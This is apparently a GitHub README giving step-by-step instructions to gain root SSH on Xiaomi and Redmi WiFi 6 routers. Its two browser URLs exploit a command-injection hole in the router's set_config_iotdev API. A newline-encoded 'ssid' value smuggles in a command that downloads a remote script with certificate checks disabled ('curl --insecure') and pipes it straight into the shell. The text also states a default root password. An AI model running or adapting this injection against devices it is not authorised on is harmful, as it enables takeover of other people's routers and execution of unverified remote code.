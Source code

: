 # Unlock SSH on Xiaomi and Redmi WiFi 6 routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser:
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlock_ssh.sh%20%7C%20ash%0A
```

If the command is injected correctly you will receive an `{"code":0}` response.

Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.

If you also want to block some Chinese servers (this will also disable access by the MiWifi app), run:
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Fblock_chinese_servers.sh%20%7C%20ash%0A
```

